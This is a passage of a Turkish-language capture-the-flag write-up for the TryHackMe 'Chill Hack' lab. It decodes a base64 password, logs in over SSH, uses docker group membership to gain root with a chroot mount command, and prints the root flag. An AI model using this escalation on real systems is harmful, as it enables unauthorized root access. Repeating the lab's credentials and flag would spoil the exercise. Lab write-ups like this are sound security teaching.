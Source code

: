 ![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a13.png?raw=true)

>pass1word

zip dosyasını şifreyi girip açtığımızda içinde source_code.php isimli php dosyasının olduğunu görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a14.png?raw=true)

Dosyanın içerisinde base64 ile kodlanmış bir şifre var kırıp ne olduğunu görelim.

 ```bash
┌──(root㉿r3tr0)-[~]
└─# echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 --decode
!d0ntKn0wmYp@ssw0rd                                                                                          
 ```

Anurodh kullanıcısının şifresini bulduk. SSH ile giriş yapalım.

```bash
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)                                          
```

anurodh kullanıcısının 999(docker) grubunda olduğunu görüyoruz.

İnternette biraz araştırma yaptım. Docker ile yetki yükseltme kodlarını paylaşan bir [web sitesi](https://keiran.scot/2020/07/05/privilege-escalation-with-docker/) buldum.

Aşağıdaki komutu çalıştırarak yetkimizi yükseltebiliriz.


```bash
anurodh@ubuntu:~$ docker run -it -v /:/mnt alpine chroot /mnt sh                                              
# whoami
root
```

Root olduğumuza göre root bayrağını alabiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a15.png?raw=true)

`{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`

![fsoc](/images/fsoc.gif)

